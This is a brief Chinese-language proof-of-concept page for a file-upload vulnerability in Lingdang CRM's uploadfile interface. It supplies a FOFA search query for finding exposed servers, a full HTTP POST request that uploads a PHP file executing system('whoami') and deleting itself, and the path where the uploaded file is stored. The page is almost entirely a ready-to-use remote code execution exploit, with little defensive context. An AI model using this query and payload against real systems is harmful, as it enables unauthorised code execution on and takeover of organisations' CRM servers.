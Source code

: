 # 灵当CRM系统接口uploadfile文件上传漏洞

灵当CRM系统接口uploadfile文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
POST /crm/weixinmp/index.php?userid=123&module=Upload&usid=1&action=uploadfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close

file_info={"name":"1.php"}&<?php system("whoami");unlink(__FILE__);?>
```

![image-20241227212839673](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272128744.png)

文件路径

```
/crm/storage/2024/December/week4/回显文件名.php
```

